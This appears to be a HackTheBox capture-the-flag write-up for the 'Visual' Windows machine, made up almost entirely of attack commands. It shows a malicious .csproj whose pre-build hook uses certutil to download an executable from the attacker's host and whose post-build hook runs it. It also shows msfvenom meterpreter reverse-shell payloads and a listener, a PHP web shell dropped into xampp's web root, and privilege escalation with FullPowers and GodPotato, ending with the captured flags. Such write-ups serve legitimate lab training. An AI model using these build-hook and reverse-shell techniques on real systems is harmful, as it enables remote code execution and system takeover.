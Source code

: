 ```yaml
---
layout: post
title: HTB{Visual}
author: mr4ndr3w
tags: [write-up, hackthebox, machine, windows]
---
```

<!--cut-->

* TOC
{:toc}


### USER:

```text
dotnet new sln -o Repo
cd Repoe
dotnet new console -o Repo.ConsoleApp --framework net6.0
dotnet sln Repo.sln add Repo.ConsoleApp/Repo.ConsoleApp.csproj
```

`Repo.ConsoleApp.csproj`:


```text
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

    <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
      <Exec Command="certutil -urlcache -f http://10.10.14.130:1234/asd.exe %temp%/asd.exe" />
    </Target>

    <Target Name="PostBuild" AfterTargets="PostBuildEvent">
      <Exec Command="start %temp%/asd.exe" />
    </Target>
</Project>


```
Shell:

```text

$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.130 LPORT=1235 -f exe > s.exe
$ msfconsole
msf6 > use multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lport 4244
msf6 > set lhost tun0
msf6 > run
```
Install Gitea:

```text
mkdir data
podman pull docker.io/gitea/gitea:latest
podman run --rm -it -v ./data:/data -p 3000:3000 gitea/gitea
```
```text
C:\Users\enox\Desktop>type user.txt
type user.txt
8af16def548cd6cf860ba2f3fdb12b29

```
### ROOT:


Web Shell:

```text
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.130 LPORT=12346 -f raw > dsa.php
cd C:\xampp\htdocs
curl http://10.10.11.234/dsa.php
```

Upload `FullPowers`:

```text
https://github.com/itm4n/FullPowers

```

```text
GodPotato-NET4.exe -cmd "C:\tmp\asd.exe"
```



```text
meterpreter > cat root.txt 
d8c205816a7c9dcfabfd60c0152312ae

```
